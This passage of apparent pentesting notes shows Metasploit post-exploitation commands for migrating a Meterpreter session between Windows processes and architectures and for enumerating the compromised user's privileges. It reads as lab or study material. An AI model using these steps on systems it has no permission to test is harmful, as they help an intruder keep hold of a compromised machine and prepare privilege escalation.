 ```bash
search migrate
use post/windows/manage/migrate
info
# Description:
#   This module will migrate a Meterpreter session from one process to 
#   another. A given process PID to migrate to or the module can spawn 
#   one and migrate to that newly spawned process.
set SESSION 1
run

# It will not migrate if it's already a x64 process  
```

- Migration e.g. from x86 service

```bash
use post/windows/manage/archmigrate
set SESSION 1
run
```

![Metasploit - post/windows/manage/archmigrate](3-metasploitassets/image-20230419192913558.png)

- Enumerate current user privileges

```bash
search win_privs
use post/windows/gather/win_privs
set SESSION 1
run
```
